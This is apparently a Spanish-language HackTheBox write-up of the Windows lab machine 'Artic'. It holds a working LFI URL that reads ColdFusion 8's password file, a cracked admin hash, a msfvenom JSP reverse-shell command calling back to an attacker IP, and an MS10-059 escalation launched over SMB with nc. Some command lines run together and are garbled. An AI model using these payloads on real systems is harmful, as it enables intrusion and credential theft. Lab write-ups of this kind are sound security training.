HackTheBox
Easy
Windows
ColdFusion
LFI
Scheduled Tasks
Artic
Adobe ColdFusion 8 explotado mediante LFI para obtener credenciales, subir una JSP reverse shell y escalar con MS10-059.
cat4clysm
Herramientas utilizadas
nmap
searchsploit
msfvenom
windows-exploit-suggester
smbserver.py
Scanning
root@kali:~$
nmap -sC -sV -p 135,8500,49154 -n -Pn 10.10.10.11 -oN targeted
Puerto 8500 - ColdFusion
Accedemos a http://10.10.10.11:8500 y encontramos Adobe ColdFusion 8.


root@kali:~$
searchsploit coldfusion 8
Explotamos el LFI del exploit 14641.py para leer password.properties:
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
# Crackeado en crackstation.net: happyday
Explotacion - Reverse Shell JSP
Con acceso al panel admin, creamos una tarea programada para ejecutar una JSP reverse shell.
root@kali:~$
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.27 LPORT=443 -f raw > shell.jsp


Escuchamos en el puerto 443 y accedemos a http://10.10.10.11:8500/CFIDE/shell.jsp.

type C:\Users\tolis\Desktop\user.txtEscalada de Privilegios - MS10-059
root@kali:~$
./windows-exploit-suggester.py -d 2020-10-25-mssb.xls -i systeminfo.txt
Descargamos MS10-059 (Chimichurri) y lo ejecutamos via SMB server:
root@kali:~$
smbserver.py a $(pwd)
nc -lvp 4444\\10.10.14.27\a\MS10-059.exe 10.10.14.27 4444
type C:\Users\Administrator\Desktop\root.txtLecciones aprendidas
- ColdFusion 8 tiene un LFI critico que expone el hash de la contrasena de administrador.
- Las tareas programadas en ColdFusion permiten ejecutar archivos arbitrarios con acceso de admin.
- Windows Exploit Suggester identifica vulnerabilidades de kernel segun systeminfo.